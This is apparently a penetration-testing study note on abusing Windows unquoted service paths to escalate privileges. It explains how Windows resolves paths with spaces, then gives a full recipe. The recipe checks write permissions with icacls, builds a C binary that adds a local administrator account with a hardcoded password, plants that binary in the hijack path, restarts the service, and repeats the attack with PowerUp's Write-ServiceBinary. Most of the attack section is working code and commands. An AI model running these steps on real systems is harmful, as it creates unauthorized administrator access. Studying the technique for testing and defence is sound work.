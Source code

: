 # Unquoted Service Path

## Fundamentals

In an example where a service is running with the path

```
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

When Windows starts the service, it will use the following order to try to start the executable file due to the spaces in the path

```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

This can be exploited by placing a maclicious binary in one of the misinterpreted paths

## Exploitation

We can check our permissions at each point and check if we have write permissions

```powershell
icacls "C:\"
# no write permissions
icacls "C:\Program Files"
# no write permissions
icacls "C:\Program Files\Enterprise Apps"
# write permissions located!
```

After discovering that we have write permissions for the folder `C:\Program Files\Enterprise Apps`, we can use the following `adduser.exe` program to take advantage of the vulnerability

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user mojo password123! /add");
  i = system ("net localgroup administrators mojo /add");
  
  return 0;
}
```

Compilation

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```powershell
cp .\adduser.exe 'C:\Program Files\Enterprise Apps\Current.exe'
Restart-Service GammaService
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```

We can also use PowerUp to check and exploit

```powershell
. .\PowerUp.ps1
Get-UnquotedService
# C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe is visible
```

PowerUp also gives us the `AbuseFunction`

```powershell
Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
```

We can now exploit and verify

```powershell
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```
